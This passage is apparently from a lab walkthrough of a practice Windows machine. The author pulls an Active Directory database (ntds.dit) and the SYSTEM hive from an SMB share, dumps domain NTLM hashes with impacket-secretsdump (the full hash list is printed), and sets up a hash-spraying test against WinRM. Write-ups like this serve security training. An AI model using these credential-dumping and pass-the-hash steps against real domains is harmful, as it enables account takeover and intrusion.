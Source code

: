 There is a share named `Password Audit` which is sus. Opening it, we find the .
```python
┌──(kali㉿kali)-[~/…/PGPractice/Intermediate/Windows/Resourced]
└─$ smbclient //192.168.205.175/Password\ Audit -U V.Ventz                       
Password for [WORKGROUP\V.Ventz]:
Try "help" to get a list of possible commands.
smb: \> LS
  .                                   D        0  Tue Oct  5 04:49:16 2021
  ..                                  D        0  Tue Oct  5 04:49:16 2021
  Active Directory                    D        0  Tue Oct  5 04:49:16 2021
  registry                            D        0  Tue Oct  5 04:49:16 2021

                7706623 blocks of size 4096. 2719269 blocks available
smb: \> cd "Active Directory"
smb: \Active Directory\> ls
  .                                   D        0  Tue Oct  5 04:49:16 2021
  ..                                  D        0  Tue Oct  5 04:49:16 2021
  ntds.dit                            A 25165824  Mon Sep 27 07:30:54 2021
  ntds.jfm                            A    16384  Mon Sep 27 07:30:54 2021

                7706623 blocks of size 4096. 2719269 blocks available
```

We download the ntds.dit and the SYSTEM file inside registry directory.
```python
smb: \registry\> ls
  .                                   D        0  Tue Oct  5 04:49:16 2021
  ..                                  D        0  Tue Oct  5 04:49:16 2021
  SECURITY                            A    65536  Mon Sep 27 06:45:20 2021
  SYSTEM                              A 16777216  Mon Sep 27 06:45:20 2021

                7706623 blocks of size 4096. 2719257 blocks available
```
We can use this to find the hashes of the user accounts using `impacket-secretsdump`
```python
┌──(kali㉿kali)-[~/…/PGPractice/Intermediate/Windows/Resourced]
└─$ impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x6f961da31c7ffaf16683f78e04c3e03d
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 9298735ba0d788c4fc05528650553f94
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:12579b1666d4ac10f0f59f300776495f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
RESOURCEDC$:1000:aad3b435b51404eeaad3b435b51404ee:9ddb6f4d9d01fedeb4bccfb09df1b39d:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3004b16f88664fbebfcb9ed272b0565b:::
M.Mason:1103:aad3b435b51404eeaad3b435b51404ee:3105e0f6af52aba8e11d19f27e487e45:::
K.Keen:1104:aad3b435b51404eeaad3b435b51404ee:204410cc5a7147cd52a04ddae6754b0c:::
L.Livingstone:1105:aad3b435b51404eeaad3b435b51404ee:19a3a7550ce8c505c2d46b5e39d6f808:::
J.Johnson:1106:aad3b435b51404eeaad3b435b51404ee:3e028552b946cc4f282b72879f63b726:::
V.Ventz:1107:aad3b435b51404eeaad3b435b51404ee:913c144caea1c0a936fd1ccb46929d3c:::
S.Swanson:1108:aad3b435b51404eeaad3b435b51404ee:bd7c11a9021d2708eda561984f3c8939:::
P.Parker:1109:aad3b435b51404eeaad3b435b51404ee:980910b8fc2e4fe9d482123301dd19fe:::
R.Robinson:1110:aad3b435b51404eeaad3b435b51404ee:fea5a148c14cf51590456b2102b29fac:::
D.Durant:1111:aad3b435b51404eeaad3b435b51404ee:08aca8ed17a9eec9fac4acdcb4652c35:::
G.Goldberg:1112:aad3b435b51404eeaad3b435b51404ee:62e16d17c3015c47b4d513e65ca757a2:::
```
Now, since these hashes are from a Password Audit, there are chances one of them might actually work. For that we can use `crackmapexec` and try the hashes for `winrm` to see if any of them are still valid or if any password is reused.
For that purpose, we seperate the usernames and hashes into different files and use `crackmapexec`
```python
┌──(kali㉿kali)-[~/…/PGPractice/Intermediate/Windows/Resourced]
```